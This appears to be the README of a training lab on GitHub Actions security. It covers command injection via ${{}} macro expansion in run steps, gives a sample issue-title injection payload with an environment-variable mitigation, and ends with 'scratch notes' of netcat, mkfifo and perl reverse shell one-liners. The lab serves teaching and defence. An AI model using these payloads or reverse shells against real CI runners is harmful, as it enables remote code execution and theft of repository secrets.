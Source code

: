 # GitHub Actions Lab

Lab consists of a docker GitHub runner and a docker exploit Linux host.

**Build**

To build the lab cd into `docker-github` directory and run `docker compose build`.

**GitHub Runner**

The GitHub runner requires the following environment variables being set

`GITHUB_TOKEN` - GitHub Token with repo level privileges

`GITHUB_ACTION_RUNNER_TOKEN` - Token provived by GitHub when configuring the self hosted runner

Start the GitHub runner container with command `docker compose run gh_runner`.

**Exploit Linux Host**

Start the exploit Linux Docker container with command `docker compose run -i exploit`. This will provide you with an interactive shell.

## Objective

Cover the following topics:

- Command Injection
  - Vulnerability explaination
  - Basic
  - Advanced (remote shell on local hosted runner
- Secrets Exfiltration
- Committing malicious code
- Mitigations

## Command Injection

Command Injection exists where `${{}}` macros are included in `run` steps. This is because the macro is expanded (interpolated) blindly and therefore it may be possible to inject arbitrary code.

This is compounded by `GITHUB_TOKEN` which is created for each event - by default this token will have read/write permissions meaning it may also be possible to commit code in the attack.

### Basic Injection

**Vulnerability**

GitHub macro expansion is too flexible by default allowing a threat actor to inject code via macro expansion.

In this case we pass a string with a closing double quote and then pipe another command in the shell.

**Objective**

Run the `ls` command on the GitHub runner

**Method**

In GitHub web console, raise an issue with the following title

```shell
new issue title" && ls / && echo "
```

**Mitigation**

Sanitise the input using environment variables

```yaml
    env:
      TITLE: ${{github.event.issue.title}}
    
    run: |
      echo "ISSUE TITLE: $TITLE"
```

After macro expansion, **issue title** will be converted to `echo "new issue title" && ls / && echo ""`

## Scratch notes

Netcat listener command: `nc -l <PORT>`

Netcat reverse shell command: `nc -e /bin/sh <HOST> <PORT>`

If Netcat is new and doesn't support `-e` then try following alternatives

`mkfifo /tmp/p; nc <HOST> <PORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p`

`perl -e 'use Socket;$i="<HOST>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## References

- [GitHub Actions Security Vulnerability Blog](https://cycode.com/blog/github-actions-vulnerabilities/)
- [Security Hardening for GitHub Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [Docker GitHub Runner](https://dev.to/pwd9000/create-a-docker-based-self-hosted-github-runner-linux-container-48dh)
